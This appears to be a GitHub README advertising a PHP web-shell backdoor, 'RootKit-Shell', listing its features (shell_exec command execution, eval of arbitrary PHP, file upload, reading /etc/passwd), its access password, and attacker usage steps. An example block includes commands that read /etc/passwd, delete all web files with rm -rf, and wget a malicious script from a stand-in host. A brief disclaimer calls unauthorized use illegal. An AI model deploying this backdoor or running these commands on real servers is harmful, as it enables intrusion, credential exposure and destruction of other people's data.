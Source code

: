 ### PHP RootKit Backdoor – Features & Security Risks
![RootKit-Shell Backdoor](https://raw.githubusercontent.com/RootShelll/RootKit-Shell/refs/heads/main/RootKit%20(%20PHP%20Backdoor%20).png "RootKit-Shell Backdoor")
## Password:
```bash
R00t
```

#### Overview

This PHP backdoor script provides full control over a web server once deployed. **It is a malicious tool** that allows unauthorized access and remote command execution.

#### Features & Functions:

- **Password-Protected Access:** Requires a predefined password for login.
- **File Manager:** View, create, edit, and delete files.
- **Command Execution:** Run system commands using `shell_exec()`.
- **PHP Code Execution:** Execute arbitrary PHP scripts via `eval()`.
- **File Upload:** Upload files to the server.
- **Sensitive File Access:** Read system files like `/etc/passwd`.

#### Usage (Theoretical)

Once uploaded to a server, this script can be accessed via a browser:

1. Navigate to the script URL.
2. Enter the password to gain access.
3. Execute commands, manage files, and exploit the server.

#### Example Commands:

```bash
ls -la  # List directory contents
cat /etc/passwd  # View system user accounts
rm -rf /var/www/html/*  # Delete all web files (dangerous)
wget http://malicious.com/malware.php -O /tmp/m.php  # Download a malicious script
php -r "system('whoami');"  # Check user permissions
```

#### Warning & Ethical Considerations

**Using such scripts for unauthorized access is illegal.** Ethical hackers and security researchers analyze these abilities to strengthen web security. If found on a system, **remove it immediately** and implement stronger security measures.
